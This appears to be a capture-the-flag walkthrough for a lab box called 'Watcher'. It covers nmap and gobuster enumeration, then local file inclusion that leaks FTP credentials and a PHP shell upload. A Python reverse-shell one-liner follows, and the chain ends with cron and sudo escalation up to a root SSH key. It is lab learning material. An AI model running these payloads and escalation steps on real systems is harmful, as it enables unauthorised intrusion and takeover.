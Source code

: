 ```yaml
---
title: "Watcher"
date: 2023-05-01T17:22:03+05:30
draft: true
---
```


Nmap scan:
```
# Nmap 7.80 scan initiated Wed Apr 26 23:09:33 2023 as: nmap -sV -sC -oA nmap/nmap 10.10.54.168
Nmap scan report for 10.10.54.168
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 26 23:09:58 2023 -- 1 IP address (1 host up) scanned in 24.59 seconds
```
Do gobuster for files and check robots.txt for the files.
```
gobuster dir -u http://10.10.54.168 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
```

Local file inclusion to get the ftp user `ftpuser:givemefiles777`:
```
http://10.10.54.168/post.php?post=secret_file_do_not_read.txt
```
now that you get the ftp user's creds use those to login and get `flag_2.txt`
After that see that you can write to `files` directory and upload `shell.php` file so that you can setup revershell.

```
http://10.10.61.151/post.php?post=/home/ftpuser/ftp/files/shell.php
```

`cd home && ls` found users:
- ftpuser
- mat
- toby
- will

```
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

```
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
cp -r /home/mat/ /tmp/mat/
```


```
find / -name "flag_3.txt"
```

Test for crontabs
```
www-data@watcher:/$ crontab -l
no crontab for www-data
```

```
www-data@watcher:/home/mat/scripts$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
```


```
www-data@watcher:/home/mat$ cat note.txt
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

```
www-data@watcher:/home/toby$ cat note.txt
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

```
www-data@watcher:/home/toby/jobs$ cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

```
www-data@watcher:/home/mat$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```


Use FTP on `/home/mat` and put `cow.jpg` to the ftp server this copies the files from mat to ftp user.

Also we have execute permissions on `/home/toby/jobs/cow.sh`

```
-rwxr-xr-x 1 toby toby   46 Dec  3  2020 cow.sh
```
Set the following reverse shell to escalate as mat using reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0", 4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

now as mat can edit the `cmd.py` file we can add a shell in the file to run bash as `will`

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py
```

finally we can read the `/opt/backups/key.b64` to get the ssh key for the root user.

```
chmod 700 ~/.ssh/watcher.pub 
ssh -i ~/.ssh/watcher.pub root@ip
```

